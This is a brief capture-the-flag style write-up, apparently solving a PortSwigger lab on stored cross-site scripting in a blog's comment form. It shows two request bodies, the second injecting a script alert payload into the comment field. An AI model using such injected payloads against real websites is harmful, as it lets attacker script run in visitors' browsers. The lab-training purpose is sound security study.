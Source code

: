 # Stored XSS into HTML context with nothing encoded

## This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality.

## To solve this lab, submit a comment that calls the `alert` function when the blog post is viewed.

### step1

`csrf=EmoyMhbu9LaNFmVBLnBV4Si0ATCL6Fz3&postId=1&comment=<p>hello</p>&name=hello&email=tes%40gmail.com&website=`

send request 302 Found

### step2

`csrf=EmoyMhbu9LaNFmVBLnBV4Si0ATCL6Fz3&postId=1&comment=<script>alert()</script>&name=<p>hello</p>&email=tes%40gmail.com&website=`

send request 302 Found
now reload page alert pop will com on each reload
